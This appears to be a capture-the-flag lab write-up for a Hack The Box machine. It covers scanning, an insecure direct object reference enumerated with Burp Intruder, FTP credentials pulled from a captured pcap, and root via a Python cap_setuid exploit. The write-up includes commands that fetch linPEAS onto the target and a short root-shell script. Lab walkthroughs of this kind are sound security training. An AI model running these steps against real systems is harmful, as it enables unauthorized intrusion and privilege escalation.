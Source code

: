 Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.10.245
```

![image](images/20250308164440.png)

Go to the site

![image](images/20250308164545.png)

Go to `Security Snapshot` and notice that the `URL` has `/data/id`. If we substitute a different `id`, we will go to a different user's page. To check how many `.pcap` files there are, we will use `Burp Suite Intruder`

![image](images/20250308170148.png)

Let's create a list containing numbers from `0` to `100`
``bash
seq 0 100 > number_list.txt
```

![image](images/20250308170354.png)

Paste this file into `Intruder` and launch the attack

![image](images/20250308170500.png)

We see that there is an `id` with files. This is `0, 4, 10, 11, 12, 13, 14`

![image](images/20250308170644.png)

Download and look at the file with `id=0`

![image](images/20250308170857.png)

Look for the `ftp` packet and open it via `Follow > TCP Stream`

![image](images/20250308171138.png)

There are credentials for authorization via `FTP`
```Username
nathan
```
```Password
Buck3tH4TF0RM3!
```
Log in to `FTP`
```bash
ftp nathan@10.10.10.245
```

![image](images/20250308171351.png)

Download everything we see

![image](images/20250308171544.png)


![image](images/20250308171558.png)

```flag
2902bb729f0bf336292c1538ad2fed60
```
Try connecting to `nathan` via `SSH`

![image](images/20250308171905.png)

Try finding files with the **SUID bit** set
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![image](images/20250308184026.png)

Nothing interesting here.
Let's look at the scheduled tasks in `cron`
```bash
cat /etc/crontab
```

![image](images/20250308184445.png)

Nothing interesting here either. I'll use a [script](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to search for directories for privilege escalation. Download it, move it to `/var/www/html` and start the `http` server.
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
```bash
cp linpeas.sh /var/www/html
```
After that, download this script on the victim's machine
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

![image](images/20250308190711.png)

Run the script

![image](images/20250308190747.png)

If you look at the entire output of the script, only `Capabilities` is highlighted
>[!info] Note
>**Capabilities** is a Linux mechanism that allows processes to be given **limited root privileges** without full access.


![image](images/20250308191005.png)

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
- **`cap_setuid`** — allows you to change the UID of a process (e.g. become root).
- **`cap_net_bind_service`** — allows you to bind to ports < 1024 (e.g. 80/tcp).
> [!info] Note
> **Bind** (from English _bind_ — "to bind") in the context of network programming means that the process **binds itself to a specific network port** on the computer to start accepting incoming connections.

<div style="page-break-after: always;"></div>

---

`Copabilities` could also be found with the command
```bash
getcap -r / 2>/dev/null
```

![image](images/20250308192135.png)


---

Let's create a simple exploit
```Python
import os

# Set UID=0 (root)
os.setuid(0)
# Launch root shell
os.system("/bin/bash")
```
After that, launch it
```bash
/usr/bin/python3.8 exploit.py
```

![image](images/20250308191810.png)

```flag
7083163567f8d5008fb15552ed74e674
```
